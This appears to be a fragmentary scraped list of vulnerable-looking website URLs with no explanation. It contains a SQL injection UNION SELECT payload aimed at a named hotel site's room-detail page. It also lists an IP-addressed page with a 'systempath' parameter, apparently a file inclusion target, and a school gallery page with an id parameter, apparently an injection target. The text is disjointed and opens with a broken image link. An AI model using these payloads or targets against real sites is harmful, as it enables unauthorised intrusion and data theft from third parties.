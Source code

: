 http://www.embryohotel.com/room-detail.php?id=-1+UNION+SELECT+1,2,3,4,5,6,7,8,9,10,11,12,13--+




145.239.87.16:83/includes/header.php?systempath=




https://www.johnxxiii.co.in/php/gallary.php?id=1 




